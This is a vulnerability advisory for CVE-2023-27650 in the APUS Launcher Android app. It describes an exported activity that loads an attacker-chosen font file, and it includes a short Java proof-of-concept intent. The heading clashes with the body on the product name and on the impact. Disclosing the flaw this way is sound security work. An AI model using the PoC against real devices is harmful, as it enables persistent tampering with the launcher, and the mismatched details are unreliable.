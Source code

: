 ## Denial of Service exists in Super Secuirty（CVE-2023-27650）

Vendor：APUS Group(https://www.apusapps.com/en/launcher)

Affected product：APUS Launcher(com.apusapps.launcher)

Version：3.10.88, 3.10.73

Download link： https://play.google.com/store/apps/details?id=com.apusapps.launcher

Description of the vulnerability for use in the CVE：An issue found in APUS Group Launcher v.3.10.73 and v.3.10.88 allows a remote attacker to execute arbitrary code via the FONT_FILE parameter.

Additional information：APUS Launcher allows unauthorized applications to launch its Activity and control the font files loaded on the APP desktop by adding additional information. Specifically, APUS Launcher has an open Activity that receives the path to the font file carried in the intent and then loads the APP desktop icon font based on that path, and by specifying the font file path the attacker is able to make APUS Launcher load the malicious font file. It is worth noting that the above attack is persistent, because the path will be stored in the SharedPreference file by APUS Launcher.



APUS Launcher's HiFontCooperationActivity receives the "com.apus.launcher.extra.FONT_FILE" field information carried in the intent and uses this value as the file path to load the APP desktop icon font file path. However, HiFontCooperationActivity is exposed, the attacker can cause APUS Launcher to load malicious fonts by sending an intent carrying malicious file path information, resulting in display exceptions or security vulnerabilities (such as data leakage, application crashes, denial of service attacks, etc.).

poc：

```java
private void attack() {
        Intent intent = new Intent();
        ComponentName componentName = new ComponentName("com.apusapps.launcher", "com.apusapps.launcher.launcher.HiFontCooperationActivity");
        intent.setComponent(componentName);
        intent.putExtra("com.apus.launcher.extra.FONT_FILE", "/data/local/tmp/方正胖头鱼.TTF");
        try {
            System.out.println("start activity");
            startActivity(intent);
        } catch (Exception e) {
        }
}
```



